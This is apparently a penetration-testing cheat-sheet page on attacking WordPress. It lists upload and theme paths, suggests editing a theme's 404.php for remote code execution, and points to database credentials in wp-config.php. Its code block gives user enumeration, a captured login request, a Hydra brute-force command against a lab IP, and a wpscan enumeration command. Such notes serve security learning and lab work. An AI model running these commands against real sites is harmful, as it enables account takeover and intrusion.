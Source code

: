 # Wordpress

&#x20;[https://github.com/m4ll0k/WPSeku](https://github.com/m4ll0k/WPSeku)

## [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)

## Basic info

**Uploaded** files go to: _`http://10.10.10.10/wp-content/uploads/2018/08/a.txt`_\
**Themes files can be found in /wp-content/themes/,** so if you change some php of the theme to get RCE you probably will use that path. For example: Using **theme twentytwelve** you can **access** the **404.php** file i&#x6E;**: /wp-content/themes/twentytwelve/404.php**\
**Another useful url could be: /wp-content/themes/default/404.php**

**In wp-config.php you can find the root password of the database.**

Default login paths to check: _**/wp-login.php, /wp-login/, /wp-admin/, /wp-admin.php, /login/**_

{% hint style="info" %}
In case of problems to reach URL try this parameter on wpscan:

```
--disable-tls-checks
```
{% endhint %}

## Enumerate users

Wordpress login page always says if the username does exist or not. So first is to use a dictionary and guess the username with Hydra. Intercept the request with Burp Suite to inform correctly about the parameters to Hydra. Another option is to bruteforce the **authorid**.

{% code overflow="wrap" fullWidth="true" %}
```bash
# To find usernames manually
http://$url/?author=userid
# We will get this kind of response as URL
http://url/author/nickname/

# ----If bruteforce is used, try /usr/share/seclists/Usernames/Names/names.txt
# Burp interception
/wp-login.php
log=admin&pwd=1&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.195.175%2Fwp-admin%2F&testcookie=1
# And this information combined into Hydra:
hydra -L users.txt -p '1' -f 10.10.195.175 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.195.175%2Fwp-admin%2F&testcookie=1:Invalid username"

# WPSCAN
wpscan --url $URL[/$PATH] --enumerate u
```
{% endcode %}
